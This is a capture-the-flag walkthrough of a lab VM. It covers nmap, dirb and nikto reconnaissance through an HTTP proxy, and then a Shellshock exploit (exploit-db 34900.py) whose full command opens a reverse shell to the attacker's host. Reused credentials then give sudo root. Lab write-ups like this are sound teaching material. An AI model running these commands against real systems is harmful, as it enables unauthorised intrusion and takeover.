

In this CTF we are going to learn about command injection, using searchsploit, and privilege escalation.
The first thing we'll do is run a quick nmap scan, as I am still having trouble with netdiscover on
NAT network. As we can see from the scan below, our host, 10.0.2.6
has ports 22, 3128, and 8080 exposed.
Good. We have identified the host, now for a more intense nmap scan. On port 3128 there looks to be an open HTTP proxy.
Let's configure our proxy settings in firefox...
...and navigate to the IP. BLEHHH!!!
Searching the source code revealed nothing, so we can look at the robots.txt for clues. It looks like
there is a directory that the website owner wants discluded from search engine results, /wolfcms.
At this point I decided to try a dirb scan of the root directory, but that revealed nothing new.
Instead, let's try a dirb scan of the /wolfcms directory. This
really doesn't net us anything of value, other than a confirmed 200 code on /wolfcms/index.*, so we can navigate there via the browser.
Here we see a web app called Wolf: Content Management Simplified. There is nothing significant here, and we really don't have a direction to move in, so let's run a nikto vulnerability scan.
The composition of the scan is as follows:
nikto -host 10.0.2.6 -useproxy 10.0.2.6:3128
And the results include the Shell Shock vulnerability listed below.
Using searchsploit, we are able to find a list of exploits that will allow us to create a reverse shell on the vulnerable host. In this case we are going to be using 34900.py. So, we can just copy the exploit into our working directory so we can edit it if necessary.
cp /usr/share/exploitdb/exploits/linux/remote/34900.py 34900.py
By simply running the program, python 34900.py we can see exactly
how to build our command.
python 34900.py payload=reverse rhost=10.0.2.6/cgi-bin/status lhost=10.0.2.15 lport=1234 proxy=10.0.2.6:3128
Above is the command the complete command that we can use to establish a reverse shell.
And we're in!
Now, because of the increasing instability of my shell, I am going to take this as an opportunity to see if these credentials can be used elsewhere and log into the machine directly.
The username and password combination, sickos john@123, works, and we are now logged in.
Then, we can attempt to reuse the password for sudo, and that works to! Finishing the CTF is as
simple as sudo su, using john@123 as the password again, and
navigating to the root directory. And there is the victory
flag.
There were many other ways that we could have gotten to root. During the initial exploitation phase,
we could have used default admin credentials
to log into the admin system and upload a reverse shell and gain access that way. Had I been able to
secure a more stable shell in the first place,
we could have used the connect.py file in the /var/www/ directory. There we could have
updated the file's contetnts to create a script that opens a reverse shell as root. For simple CTFs
like this one, manual credential experimentation
is a fine strategy, but nowadays you can expect people to use more secure credential practices.
Anyway, that was a fun CTF and I hope you learned something.